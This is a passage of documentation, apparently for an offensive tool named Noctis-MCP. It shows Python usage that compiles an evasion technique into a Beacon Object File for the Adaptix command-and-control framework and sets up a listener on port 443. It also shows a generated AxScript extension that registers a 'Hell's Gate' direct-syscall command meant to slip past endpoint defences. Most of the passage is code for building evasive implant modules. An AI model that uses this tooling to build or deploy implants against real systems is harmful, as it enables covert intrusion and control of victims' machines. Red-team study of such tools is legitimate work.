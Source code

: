 ```python
print(f"Beacon: {result.beacon_path}")
print(f"OPSEC Score: {result.opsec_score}/10")
```

### Adaptix BOF (AxScript Extensions)

**Generate AxScript BOF:**
```python
from c2_adapters import AdaptixAdapter, AdaptixConfig
from compilation.bof_compiler import BOFCompiler

# Compile BOF
bof_compiler = BOFCompiler()
bof_result = bof_compiler.compile_technique_to_bof('NOCTIS-T004', 'adaptix')

# Create Adaptix adapter
config = AdaptixConfig(listener_host="192.168.1.100", listener_port=443)
adapter = AdaptixAdapter(config, verbose=True)

# Generate AxScript extension
axscript_path = adapter.generate_axscript_extension(
    bof_name="syscalls_bof",
    bof_x86_path=bof_result.x86_path,
    bof_x64_path=bof_result.x64_path,
    description="Hell's Gate Syscalls BOF"
)

print(f"AxScript: {axscript_path}")
```

**Generated AxScript Example:**
```javascript
// syscalls_bof.axs - Noctis-MCP Generated Extension
var metadata = {
    name: "syscalls_bof",
    description: "Hell's Gate Syscalls BOF",
    store: true
};

function syscalls_bof(id, cmdline, args) {
    // Get BOF path using Adaptix ax.script_dir() and ax.arch()
    let bof_path = ax.script_dir() + "_bin/syscalls_bof." + ax.arch(id) + ".o";

    // Pack arguments per Adaptix spec (if args provided)
    let bof_params = "";
    if (args && args.length > 0) {
        bof_params = ax.bof_pack("cstr", args);  // arg format: "cstr", "int", etc.
    }

    // Execute BOF using execute_alias per Adaptix pattern
    ax.execute_alias(id, cmdline, `execute bof ${bof_path} ${bof_params}`);
}

// Register command
ax.registerCommand("syscalls_bof", syscalls_bof);
```
